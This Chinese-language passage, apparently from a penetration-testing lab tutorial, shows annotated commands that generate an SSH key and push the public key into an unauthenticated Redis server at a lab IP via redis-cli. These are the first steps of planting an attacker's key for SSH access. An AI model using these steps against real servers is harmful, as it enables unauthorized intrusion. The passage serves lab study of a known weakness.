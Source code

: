 ![截图](93393211eddb8cc53f422d08f2a601bc.png)

尝试写入SSH公钥

```
ssh-keygen -t rsa #生成一对RSA SSH密钥，默认存储在/root/.ssh/id_rsa（私钥）和/root/.ssh/id_rsa.pub（公钥）中(默认情况即一直回车)

(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt #将两个换行符和公钥内容写入foo.txt，换行符用于分隔。

cat foo.txt | redis-cli -h 192.168.111.133 -p 6379 -x set hello #将foo.txt中的内容通过管道传输给Redis命令，设置键hello的值为foo.txt的内容。
```
